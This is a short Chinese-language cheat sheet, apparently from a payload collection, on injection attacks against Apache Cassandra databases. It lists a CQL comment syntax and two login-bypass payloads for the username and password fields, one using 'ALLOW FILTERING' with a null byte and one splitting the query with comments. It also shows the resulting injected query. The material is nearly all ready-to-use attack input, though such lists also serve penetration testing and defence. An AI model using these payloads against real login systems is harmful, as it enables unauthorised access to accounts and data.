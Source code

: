 # Cassandra注入

> Apache Cassandra 是一个免费的开源分布式宽列存储NoSQL数据库管理系统

## 摘要

* [卡桑德拉注释](#卡桑德拉注释)
* [卡桑德拉 - 登录绕过](#卡桑德拉---登录绕过)
  * [登录绕过 0](#登录绕过-0)
  * [登录绕过 1](#登录绕过-1)
* [参考资料](#参考资料)

## 卡桑德拉注释

```sql
/* 卡桑德拉注释 */
```

## 卡桑德拉 - 登录绕过

### 登录绕过 0

```sql
用户名: admin' ALLOW FILTERING; %00
密码: 任意
```

### 登录绕过 1

```sql
用户名: admin'/*
密码: */and pass>'
```

注入将如下所示的SQL查询

```sql
SELECT * FROM users WHERE user = 'admin'/*' AND pass = '*/and pass>'' ALLOW FILTERING;
```

## 参考资料
